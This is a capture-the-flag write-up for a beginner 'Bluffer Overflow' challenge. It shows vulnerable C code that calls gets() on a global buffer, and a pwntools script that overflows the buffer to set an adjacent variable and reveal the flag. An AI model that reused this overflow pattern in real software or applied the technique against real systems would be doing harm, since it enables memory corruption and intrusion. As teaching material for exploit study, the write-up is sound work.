

## Bluffer Overflow 🩸

```
Author: rennfurukawa

Maybe it's your first time pwning? Can you overwrite the variable?

nc ctf.tcp1p.com 17027
```
**Attachment**: [dist.zip](release/dist.zip)

We were given a zip file that contain a C source code.

<details open><summary>chall.c</summary>
    
```c
#include <stdio.h>
#include <stdlib.h>

char buff[20];
int buff2;

void setup(){
	setvbuf(stdin, buff, _IONBF, 0);
	setvbuf(stdout, buff, _IONBF, 0);
	setvbuf(stderr, buff, _IONBF, 0);
}

void flag_handler(){
	FILE *f = fopen("flag.txt","r");
  	if (f == NULL) {
    	printf("Cannot find flag.txt!");
    	exit(0);
  }
}

void buffer(){
	buff2 = 0;
	printf("Can you get the exact value to print the flag?\n");
	printf("Input: ");
	fflush(stdout);
	gets(buff); 
	if (buff2 > 5134160) {
		printf("Too high!\n\n");
	} else if (buff2 == 5134160){
		printf("Congrats, You got the right value!\n");
	 	system("cat flag.txt");
	} else {
		printf("Sad, too low! :(, maybe you can add *more* value 0_0\n\n");
	}
	printf("\nOutput : %s, Value : %d \n", buff, buff2);
}

int main(){
	flag_handler();
	setup();
	buffer();
}
```
    
</details>
    
Based by the provided code, the program will ask the user to input a data using the `gets()` function and it will be saved into the `buff` global variable. Since the `gets()` doesn't do a boundaries check, so it will cause a Buffer Overflow vulnerability. Let's take a closer look to the `buffer()` function, there's a check if a value of buff2 variable is equals to 5134160, it will call give us the flag. 
    
We can exploit this Buffer Overflow vulnerability to overwrite the global variable `buff2` with 5134160 by filling the global variable `buff` first with 20 bytes of dummy data (the variable `buff` can only hold up to 20 bytes of data `char buf[20]`).
    
Here's my exploit to solve this challenge.
    
<details open> <summary>exploit.py</summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
from os import path
import sys

# ==========================[ Information
DIR = path.dirname(path.abspath(__file__))
EXECUTABLE = "/chall"
TARGET = DIR + EXECUTABLE 
HOST, PORT = "ctf.tcp1p.com", 17027
REMOTE, LOCAL = False, False

# ==========================[ Tools
elf = ELF(TARGET)
elfROP = ROP(elf)

# ==========================[ Configuration
context.update(
    arch=["i386", "amd64", "aarch64"][1],
    endian="little",
    os="linux",
    log_level = ['debug', 'info', 'warn'][2],
    terminal = ['tmux', 'split-window', '-h'],
)

# ==========================[ Exploit

def exploit(io, libc=null):
    if LOCAL==True:
        #raw_input("Fire GDB!")
        if len(sys.argv) > 1 and sys.argv[1] == "d":
            choosen_gdb = [
                "source /home/mydata/tools/gdb/gdb-pwndbg/gdbinit.py",     # 0 - pwndbg
                "source /home/mydata/tools/gdb/gdb-peda/peda.py",          # 1 - peda
                "source /home/mydata/tools/gdb/gdb-gef/.gdbinit-gef.py"    # 2 - gef
                ][0]
            cmd = choosen_gdb + """
            b *buffer+94
            """
            gdb.attach(io, gdbscript=cmd)
    
    p = b""
    p += b"A"*20 # char buff[20]
    p += p64(5134160) # new value for buff2

    io.sendline(p)
    io.interactive()

if __name__ == "__main__":
    io, libc = null, null

    if args.REMOTE:
        REMOTE = True
        io = remote(HOST, PORT)
        # libc = ELF("___")
        
    else:
        LOCAL = True
        io = process(
            [TARGET, ],
            env={
            #     "LD_PRELOAD":DIR+"/___",
            #     "LD_LIBRARY_PATH":DIR+"/___",
            },
        )
        # libc = ELF("___")
    exploit(io, libc)
``` 
</details>

  


    
**Flag:** TCP1P{ez_buff3r_0verflow_l0c4l_v4r1abl3_38763f0c86da16fe14e062cd054d71ca}